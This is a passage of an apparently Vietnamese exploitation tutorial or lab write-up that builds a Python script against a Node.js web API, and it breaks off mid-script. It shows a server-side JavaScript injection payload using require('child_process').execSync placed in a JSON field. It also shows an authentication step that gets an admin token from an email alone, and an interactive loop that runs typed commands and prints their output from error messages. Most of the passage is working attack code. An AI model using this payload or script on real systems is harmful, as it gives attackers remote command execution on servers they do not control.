 ### 4. **Chèn Lệnh vào Payload**
Tiếp theo, chúng ta sẽ sử dụng chuỗi Python để tạo payload JSON với lệnh người dùng nhập vào:

```python
while True:
    user_input = input("> ")
    # Thay thế dấu nháy đơn bằng dấu nháy kép để tránh lỗi trong JSON
    user_input = user_input.replace("'", '"')
    payload = {
        "text": "' + require('child_process').execSync('" + user_input + "').toString() + `'`, statusCode: 403})//"
    }
    print(payload)
```

### 5. **Gửi Yêu Cầu POST**
Bây giờ, chúng ta sẽ gửi yêu cầu POST tới API `/api/service/generate` với payload đã chuẩn bị và token xác thực:

```python
headers = {"Content-Type": "application/json", "Authorization": f"Bearer {token}"}
response = requests.post(qr_endpoint, headers=headers, data=json.dumps(payload))
```

### 6. **Phân Tích Phản Hồi và In Kết Quả**
Phản hồi từ server sẽ chứa thông tin về lệnh đã được thực thi. Chúng ta cần phân tích phản hồi và trích xuất đầu ra của lệnh:

```python
output = response.json()['message'].split("The input \"")[1][:-2]
print(output)
```

### 7. **Tạo Chương Trình Hoàn Chỉnh**
Kết hợp tất cả các phần trên, chúng ta có thể tạo một script hoàn chỉnh để tự động hóa khai thác:

```python
#!/usr/bin/python3
import requests
import json

# Định nghĩa các thông tin server và các endpoint API
server = "localhost"
port = 5000
url = f"http://{server}:{port}"
auth_endpoint = f"{url}/api/auth/authenticate"
qr_endpoint = f"{url}/api/service/generate"

# Xác định các header và dữ liệu xác thực
headers = {"Content-Type": "application/json"}
data = {"email": "admin@domain.com"}

# Gửi yêu cầu POST đến endpoint xác thực và lấy token
response = requests.post(auth_endpoint, headers=headers, data=json.dumps(data))
token = response.json()['token']

while True:
    # Nhập lệnh từ người dùng
    user_input = input("> ")

    # Thay thế dấu nháy đơn bằng dấu nháy kép để tránh lỗi
    user_input = user_input.replace("'", '"')
    
    # Tạo payload với lệnh người dùng nhập
    payload = {
```